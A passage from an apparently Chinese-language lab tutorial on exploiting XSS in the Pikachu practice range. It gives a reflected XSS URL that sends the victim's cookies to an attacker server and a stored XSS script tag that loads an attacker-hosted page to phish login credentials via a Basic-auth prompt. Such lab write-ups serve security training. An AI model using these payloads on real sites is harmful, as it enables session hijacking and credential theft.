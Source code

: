 
1、在攻击机里面搭建pikachu靶场进入管理工具里的XSS后台

![image-20230106154418458](https://cdn.jsdelivr.net/gh/xmtxsec/picture/img/202301061544385.png)



修改pikachu/pkxss/xcookie下的cookie.php，将**IP地址改为漏洞服务器的地址**

![image-20230106154705873](https://cdn.jsdelivr.net/gh/xmtxsec/picture/img/202301061547924.png)



2、攻击者构造一个带有Payload的URL，诱使受害者点击就能取得Cookie

```
http://192.168.1.5/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2F192.168.1.11%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&submit=submit
```



成功获取到用户Cookie

![image-20230106155025190](https://cdn.jsdelivr.net/gh/xmtxsec/picture/img/202301061550244.png)



## 3.2、利用XSS漏洞获取用户账号密码

​		在一个**存在XSS漏洞的页面上面嵌入一个恶意请求**，当用户打开这个页面时这个页面就会像攻击者的服务器发送请求，这个请求会返回一个Basic认证的头部这时候会弹出一个提示框，要求受害者输入账号密码，从而盗取用户的账号密码。



**环境准备**

攻击机：192.168.1.11

漏洞服务器：192.168.1.8



1、在攻击机里面搭建pikachu靶场进入管理工具里的XSS后台

![image-20230106160455324](https://cdn.jsdelivr.net/gh/xmtxsec/picture/img/202301061604376.png)



修改漏洞服务器pikachu/pkxss/xfish 下的 fish.php 文件，**将IP地址改为攻击者的服务器地址**





2、模拟攻击者访问漏洞服务器构造恶意代码并留言

```
你好，我是小鸣同学<script src="http://192.168.1.11/pikachu/pkxss/xfish/fish.php"></script>
```





留言结果
